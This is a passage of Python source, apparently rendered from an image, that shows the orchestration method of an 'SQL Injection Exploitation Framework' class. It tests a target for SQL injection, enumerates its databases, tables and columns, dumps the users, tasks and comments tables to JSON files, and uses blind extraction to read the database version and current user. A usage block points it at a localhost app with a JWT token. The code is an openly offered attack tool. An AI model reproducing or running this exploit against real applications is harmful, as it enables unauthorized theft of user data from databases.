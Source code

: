 ```python
                        break
                        
                except Exception:
                    continue
            else:
                # No more characters found
                break
        
        return result
    
    def full_exploitation(self):
        """Perform complete database exploitation"""
        print("=== SQL Injection Exploitation Framework ===")
        
        # Step 1: Test for vulnerability
        print("\n[1] Testing for SQL injection vulnerability...")
        if not self.test_injection():
            print("✗ No SQL injection vulnerability detected")
            return
        
        # Step 2: Enumerate databases
        print("\n[2] Enumerating databases...")
        databases = self.enumerate_databases()
        
        # Step 3: Enumerate tables
        print("\n[3] Enumerating tables...")
        tables = self.enumerate_tables()
        
        # Step 4: Extract sensitive data
        print("\n[4] Extracting sensitive data...")
        sensitive_tables = ['users', 'tasks', 'comments']
        
        for table in tables:
            if table in sensitive_tables:
                print(f"\n[4.{tables.index(table)+1}] Processing table: {table}")
                columns = self.enumerate_columns(table)
                if columns:
                    data = self.extract_data(table, columns)
                    
                    # Save extracted data
                    with open(f'extracted_{table}.json', 'w') as f:
                        json.dump(data, f, indent=2)
                    print(f"✓ Data saved to extracted_{table}.json")
        
        # Step 5: Advanced techniques
        print("\n[5] Advanced exploitation techniques...")
        
        # Extract database version
        version = self.blind_extraction("SELECT version()")
        print(f"✓ Database version: {version}")
        
        # Extract current user
        current_user = self.blind_extraction("SELECT current_user")
        print(f"✓ Current database user: {current_user}")
        
        print("\n=== Exploitation Complete ===")

# Usage example
if __name__ == "__main__":
    exploiter = SQLInjectionExploiter('http://localhost:3000', 'your_jwt_token_here')
    exploiter.full_exploitation()
```
